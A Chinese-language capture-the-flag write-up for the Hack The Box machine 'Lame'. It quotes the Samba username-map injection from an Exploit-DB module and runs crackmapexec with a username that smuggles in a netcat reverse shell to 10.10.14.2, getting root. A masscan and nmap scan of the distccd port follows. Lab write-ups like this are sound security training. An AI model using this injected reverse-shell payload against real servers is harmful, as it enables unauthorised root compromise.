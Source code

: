 ### crackmapexec

来自参考文献2

`more /usr/share/exploitdb/exploits/unix/remote/16320.rb` 分析漏洞利用脚本，发现name 字段为

```ruby
 "/=`nohup " + payload.encoded + "`"
```



```shell
 $ crackmapexec smb --shares 10.10.10.3 -u './=`nohup nc -e /bin/sh 10.10.14.2 4445`' -p ''                                           
 SMB         10.10.10.3     445   LAME             [*] Unix (name:LAME) (domain:hackthebox.gr) (signing:False) (SMBv1:True)
```

另一边做监听`$ nc -lvnp 4445`

```shell
 $ nc -lvnp 4445
 listening on [any] 4445 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 59300
 whoami
 root
```

Metasploit 使用 nohup 命令，即 no hang up的缩写，这是 Linux 系统中的一个命令，即使在退出 shell 或终端并在当前上下文之外启动进程然后是有效负载之后，它也能保持进程运行。

总结：Lame 是利用Samba的命令注入漏洞直接获取root权限

## 4. distccd

看了参考文献2后，才发现还少了一个点没有发现，这边我不写了，直接看原文吧。

------

想了想还是再从这个点再做一次，多练习练习。

nmap 默认扫描未发现该端口，需要进行全端口才可以。这里用masscan快速扫描

```shell
 $ sudo masscan -e tun0 -p- --max-rate 500 10.10.10.3
 Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-03-17 05:45:11 GMT
 Initiating SYN Stealth Scan
 Scanning 1 hosts [65535 ports/host]
 Discovered open port 139/tcp on 10.10.10.3 
 Discovered open port 22/tcp on 10.10.10.3  
 Discovered open port 445/tcp on 10.10.10.3 
 Discovered open port 3632/tcp on 10.10.10.3 
 Discovered open port 21/tcp on 10.10.10.3
```

nmap 做细分扫描，扫特定端口的服务详情，并用上NSE

```shell
 $ sudo nmap -T4 -sSV -sC -p3632 10.10.10.3          
 Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-17 13:52 HKT
 Nmap scan report for 10.10.10.3
 Host is up (0.29s latency).
 
 PORT     STATE SERVICE VERSION
 3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 8.28 seconds
 
 $ locate *.nse | grep distcc
```
